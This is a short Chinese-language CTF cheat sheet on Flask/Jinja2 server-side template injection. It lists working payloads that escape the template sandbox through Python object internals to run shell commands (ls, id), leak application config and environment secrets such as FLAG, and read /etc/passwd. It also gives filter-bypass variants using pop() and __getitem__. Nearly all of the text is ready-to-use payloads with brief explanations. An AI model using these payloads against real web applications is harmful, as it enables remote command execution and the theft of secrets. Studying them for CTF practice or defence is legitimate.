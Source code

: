 

```python
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')
```



```python
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

## 姿势集

1️⃣

{{config}} 可以获取当前设置，如果题目是这样的：

> app.config ['FLAG'] = os.environ.pop（'FLAG'）

可以直接访问 {{config['FLAG']}} 或者 {{config.FLAG}} 得到 flag。

2️⃣

同样可以找到 config。

```python
{{self.__dict__._TemplateReference__context.config}}
```

3️⃣

[]、()

```python
{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}
```

4️⃣

url_for、g、request、namespace、lipsum、range、session、dict、get_flashed_messages、cycler、joiner、config等

如果上面提到的 config、self 不能使用，要获取配置信息，就必须从它的全局变量（访问配置 current_app 等）。例如：

```python
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

5️⃣

过滤了 []、.

pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。

```python
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

在这里使用 pop 函数并不会真的移除，但却能返回其值，取代中括号来实现绕过。
